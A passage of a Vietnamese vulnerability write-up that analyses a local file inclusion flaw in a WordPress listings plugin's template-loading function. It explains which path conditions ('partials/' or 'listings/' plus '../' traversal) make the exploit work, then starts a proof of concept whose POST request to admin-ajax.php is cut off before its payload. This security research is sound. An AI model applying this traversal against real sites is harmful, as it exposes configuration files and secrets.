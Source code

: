 ```php {filename="templates.php v1.4.71" hl_lines=[9,10,11,12,13]}

	return apply_filters( 'stm_listings_locate_template', $located, $templates );
}
```

Hàm `stm_listings_locate_template()` nhận tham số `$templates`, ép kiểu về mảng rồi **duyệt qua từng phần tử** để xác định đường dẫn file template hợp lệ cần nạp.

Cụ thể:

* Nếu phần tử không có hậu tố `.php`, hàm sẽ tự động nối thêm.
* Nếu đường dẫn chứa chuỗi `'partials/'`, nó gọi `locate_template( $template )` gán giá trị trả về cho `$located`.
* Ngược lại, nó tìm trong thư mục `'listings/'` và gán giá trị trả về cho `$located`.
* Nếu vẫn không tìm thấy, hàm thử kiểm tra trực tiếp trong plugin bằng cách ghép:

```
STM_LISTINGS_PATH . '/templates/' . $template
```

* Khi phát hiện file tồn tại (`file_exists()`), vòng lặp dừng lại và trả về đường dẫn đó.

[`locate_template()`](https://developer.wordpress.org/reference/functions/locate_template/) là hàm **core của WordPress**. Nó tìm file template trong theme hiện tại hoặc child theme. Nếu tìm thấy, nó trả về đường dẫn đầy đủ đến file, còn không thì trả về chuỗi rỗng. => Ta cần truyền file tồn tại.

👉 Kết quả cuối cùng được trả về qua filter `stm_listings_locate_template` với đường dẫn là `$locate`

{{< figure src="search1.png" caption="Không có filter `stm_listings_locate_template` được đăng ký" >}}

Khi tìm với từ khóa `stm_listings_locate_template` trong phạm vi plugin, tôi không thấy filter nào được đăng ký => `$locate` sẽ được trả về mà không có thay đổi do filter. 

Như vậy điều kiện cần để khai thác bao gồm:
* `template` param chứa `partials/` hoặc `listings/`
* `../` vừa đủ để `locate_template()` trong trả về chuỗi rỗng và `include` không lỗi nếu đường dẫn không tồn tại

## Exploit
### Proof of Concept (PoC)

1. Thêm code trả về trong `wp-config.php` để thử nghiệm 

```php
<?php
echo "payload"
```

2. Gửi POST request chứa LFI payload

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 123
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; stm_car_watched=2520
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```